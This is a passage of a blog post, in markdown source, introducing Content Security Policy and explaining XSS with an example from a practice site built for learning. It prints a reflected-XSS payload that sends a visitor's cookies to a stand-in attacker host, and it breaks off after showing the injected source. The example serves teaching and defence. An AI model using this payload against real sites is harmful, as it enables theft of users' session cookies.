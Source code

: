 ```yaml
--- 
title: 'CSP: Can See Purpose'
categories: security
tags: http-headers web-security
---
```


What is a Content Security Policy? What problems does it solve? How can I use it to make my site
more secure? How do I implement it without breaking my site? These are the questions I'm aiming to
answer by sharing my experience of implementing a strict Content Security Policy while not breaking
anything.


## What is a Content Security Policy (CSP)

When setting up the infrastructure for my startup, I came across
[securityheaders.com](https://securityheaders.com) which scans any website and ranks it's security
based on which HTTP headers it returns. There are many changes you should make to your HTTP headers
to increase your security, some new headers you should add, and some you should remove. One of these
headers is the Content Security Policy.


## What problems does it solve

The browser will only load approved content defined in a Content Security Policy header if one is
present. If not, it will load anything it's told to. This default behaviour is the basis for many
cyber attacks today, the most common of which is an XSS (Cross Site Scripting) attack.

The basics of an XSS attack is when at attacker will trick the browser into loading untrusted
content in order to attack a websites visitors. As an example, take a look at
[hack-yourself-first.com](http://hack-yourself-first.com) which is a great website set up by [Troy
Hunt](https://www.troyhunt.com) for everyone to learn how to secure their site by hacking another.

Do a search on the site and you'll see your seach terms reflected back to you, and in the source 
you'll find:

```html
<script>
  // ...

  $('#searchTerm').val('Nissan');
</script>
```

But, if you search for 

```
');location.href='http://evilcyberhacker.com?cookies='%2BencodeURIComponent(document.cookie);//'
```

the source will contain:

```html
<script>
  // ...

  $('#searchTerm').val('');location.href='http://evilcyberhacker.com?cookies='+encodeURIComponent(document.cookie);//');
</script>
```
